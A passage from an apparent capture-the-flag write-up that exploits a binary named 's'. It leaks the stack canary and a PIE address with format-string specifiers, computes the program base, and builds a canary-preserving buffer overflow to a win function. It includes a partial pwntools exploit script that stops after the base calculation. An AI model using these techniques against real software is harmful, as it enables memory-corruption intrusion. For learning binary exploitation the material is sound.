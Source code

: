 run the program with `gdb ./s` enter `%11$p %13%p` to get the leaks and use ctrl+c to break the program. `x/s 0x5....` for the elf leak and just type `canary` for the canary token. we can see the canary token matches up and the other leak shows `<main+58>` so we are leaking main+58. we can run the program a few time to match sure this is always the same. Once we know that we can workout the offset at which main+58 is. and we minus that from our leak and it will give us the base address of the program. 

### Building the exploit 

The last part we need is the offset. Due to the canary just throwing a cyclic pattern will know fill rbp with data so we can work it out manually.

The buffer is `32` and we will need to padding to reach rbp so it should be 32+8

setting out offset as 40 we just need to build the exploit.

our first payload will just be the two format string offsets. after we get those leaks we need to get the base address of the program. (we could also just work out the offset from our leak to win)

and the 2nd payload will be 

padding * 40 + canary token + junk data to reach rbp + ret + win

we need to ret address otherwise our stack alignment will be off.

we get this with `ropper --file s --search "ret"`

our final exploit script looks like this:

```python
#!/usr/bin/env python3
from pwn import *

exe = './s'

elf = context.binary = ELF(exe)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

#context.log_level= 'DEBUG'

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''

'''.format(**locals())

#### Exploit starts here ####

io = start()

#canary token is 11

offset = 40
io.sendline(b'%11$p %13$p')

leaks = io.recv().decode()
leaks = leaks.split()
canary = leaks[0]
binleak = leaks[1]

binleak = int(binleak,16)
base = binleak - 0x12ae
```